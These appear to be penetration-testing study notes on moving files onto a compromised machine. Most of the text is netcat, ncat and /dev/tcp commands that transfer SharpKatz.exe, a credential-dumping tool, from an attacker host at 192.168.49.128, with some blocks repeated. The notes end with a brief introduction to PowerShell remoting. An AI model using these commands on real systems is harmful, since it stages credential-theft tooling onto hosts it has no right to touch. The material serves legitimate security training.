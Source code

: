 ```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

## <mark class="hltr-cyan">Compromised Machine Connect to Netcat to Receive the File</mark>

```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

## <mark class="hltr-cyan">Attack Host - Sending File as Input to Ncat</mark>

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

## <mark class="hltr-cyan">Compromised Machine Connect to Ncat to Receive the File</mark>

```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

## <mark class="hltr-cyan">NetCat - Sending File as Input to Netcat</mark>

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

## <mark class="hltr-cyan">Ncat - Sending File as Input to Netcat</mark>

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

## <mark class="hltr-cyan">Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File</mark>

```shell-session
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## <mark class="hltr-cyan">PowerShell Session File Transfer</mark>

there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.
